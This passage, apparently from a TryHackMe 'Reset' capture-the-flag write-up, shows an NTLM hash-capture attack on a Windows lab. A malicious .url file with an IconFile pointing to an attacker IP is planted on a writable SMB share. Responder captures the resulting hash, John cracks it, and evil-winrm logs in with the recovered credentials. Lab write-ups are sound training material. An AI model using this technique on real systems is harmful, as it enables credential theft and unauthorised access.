 We can also confirm that Lily Oneill was indeed a valid user:
```
THM\LILY_ONEILL (SidTypeUser)
```

Lets add all these usernames to a file called users.txt

### Exploitation

After not getting anywhere trying to spray the discovered password against the users list, I recalled we had both read and write access to the SMB Data share, and wondered if we could possibly capture any NTLM hashes.

To do this I created a file called shell.url:

```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ cat >> shell.url
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.6.61.45\%USERNAME%.icon
IconIndex=1
```

Next I started up a Responder listener on my tun0 interface:

```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ sudo responder -I tun0 
```

Then I used the `put` command to load the malicious shell.url to the onboarding SMB share. 

Within a matter of seconds the AUTOMATE user clicked on my file and I was able to capture their hash:

reset_automate_hash.png

And was able to successfully crack it with John:

reset_johna.png

Armed with the credentials AUTOMATE:Passw0rd1 I was able to use evil-wimrm to logon to the target:

```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ evil-winrm -i thm.corp -u AUTOMATE -p 'Passw0rd1'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\automate\Documents> whoami
thm\automate
*Evil-WinRM* PS C:\Users\automate\Documents> hostname
HayStack
```
And grab the user.txt flag:
